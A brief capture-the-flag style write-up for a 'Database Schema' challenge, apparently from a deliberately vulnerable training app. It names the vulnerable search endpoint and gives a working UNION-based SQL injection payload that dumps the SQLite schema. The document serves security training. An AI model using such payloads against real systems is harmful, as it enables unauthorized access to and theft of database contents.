

# Database Schema

Exfiltrate the entire DB schema definition via SQL Injection.

# Tools used

- Browser
- swisskyrepo/PayloadsAllTheThings
- Burpsuite
- Cyberchef

# Solve

From burpsuite, we know that `/rest/products/search?q=` is the vulnerable endpoint and the `?q=param` is the vulnerable parameter.
Send this payload as the parameter, but first encode it with url encoding

```
test')) UNION SELECT 1, 2, 3, 4, 5, 6, 7, 8, sql FROM sqlite_schema--
```

